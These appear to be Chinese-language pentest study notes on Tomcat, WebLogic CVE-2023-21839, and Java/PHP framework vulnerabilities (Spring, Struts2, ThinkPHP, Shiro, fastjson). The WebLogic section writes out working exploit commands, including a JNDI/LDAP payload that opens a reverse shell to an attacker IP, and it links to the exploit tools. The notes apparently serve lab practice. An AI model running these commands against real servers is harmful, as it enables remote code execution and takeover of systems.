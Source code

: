 

### 4、tomcat

~~~shell
#1、弱口令
#2、put文件上传
##########################
练习：
    tomcat弱口令，tomcat-put任意文件上传，tomcat-文件包含
weblogic
2023-21839
漏洞地址：
    http://172.168.20.139:7001
工具下载地址： 
    https://github.com/4ra1n/CVE-2023-21839
    https://github.com/WhiteHSBG/JNDIExploit
使用jndi工具
    java -jar JNDIExploit-1.4-SNAPSHOT.jar  -i 172.168.20.12 -l 1389 -p 9999
payload:
    反弹shell
    CVE-2023-21839.exe -ip 192.168.31.9 -port 7001 -ldap ldap://172.168.20.12:1389/Basic/ReverseShell/192.168.31.149/7777
    执行命令
    CVE-2023-21839.exe -ip 192.168.31.9 -port 7001 -ldap ldap://172.168.20.12:1389/Basic/Command/id

~~~



## 框架漏洞

先找到用的是什么框架，再用相应的软件

可以使用github

K8工具扫描框架漏洞

~~~shell
# spring boot（java）
# spring框架（小绿叶子）java
1.Spring Security OAuth2 远程命令执行（CVE-2016-4977）
Spring Security OAuth2是为Spring框架提供安全认证支持的一个模块。Spring Security OAuth2处理认证请求的时候如果使用了whitelabel views，response_type参数值会被当做Spring SpEL来执行，攻击者可以在被授权的情况下通过构造response_type值也就是通过构造恶意SpEL表达式可以触发远程代码执行漏洞。故是在需要知道账号密码的前提下才可以利用该漏洞。
# struts2框架
Struts2是一款基于Java开发的框架,web路径下会出现两种特殊的文件格式,即*.action文件与*.jsp文件;现阶段已知的S2poc大多数都是远程命令执行漏洞,主要出现位置有:url中,报文内容中,content-type中;
# thinkPHP框架
thinkphp是一个国内轻量级的开发框架，采用php+apache，在更新迭代中，thinkphp也经常爆出各种漏洞，thinkphp一般有thinkphp2、thinkphp3、thinkphp5、thinkphp6版本，前两个版本已经停止更新，主要介绍下thinkphp5的漏洞
# shiro框架（set-Cookie：rememberme）工具：shiroscan
1、550 721(要登陆)
Shiro默认使用了CookieRememberMeManager, 其处理cookie的流程是: 得到rememberMe的cookie值–>Base64解码–>AES解密–>反序列化.然而AES的密钥是硬编码的, 密钥泄漏的根本原因是开发人员在开发过程中部分代码直接使用了网上的一些开源的项目代码，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。
Apache Shiro框架提供了记住我的功能（RemeberMe），⽤户登录成功后会⽣成经过加密并编码的cookie。
//cookie的key为RemeberMe，cookie的值是经过对相关信息进⾏序列化，然后使⽤aes加密，最后在使⽤base64编码处理形成的。
# openresty（通过Lua扩展Nginx实现的可伸缩的Web平台）
# Laravel
# fastjson<1.2.24反序列化
fastjson.jar是阿里开发的一款专门用于Java开发的包，可以方便的实现json对象与JavaBean对象的转换，实现JavaBean对象与json字符串的转换，实现json对象与json字符串的转换。fastjson 的 pom依赖！
1、特征
	content-length
	@type
~~~
